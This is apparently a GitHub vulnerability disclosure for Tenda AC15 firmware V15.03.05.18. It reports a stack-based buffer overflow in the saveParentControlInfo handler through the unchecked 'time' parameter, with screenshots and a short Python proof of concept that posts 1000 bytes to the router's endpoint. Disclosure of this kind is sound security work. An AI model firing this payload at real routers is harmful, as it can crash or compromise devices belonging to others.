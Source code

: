 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240316165918271](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316165918271.png)

it reads in a user-provided parameter `time`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240316165840413](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316165840413.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240316165903152](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316165903152.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316165929708](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316165929708.png)

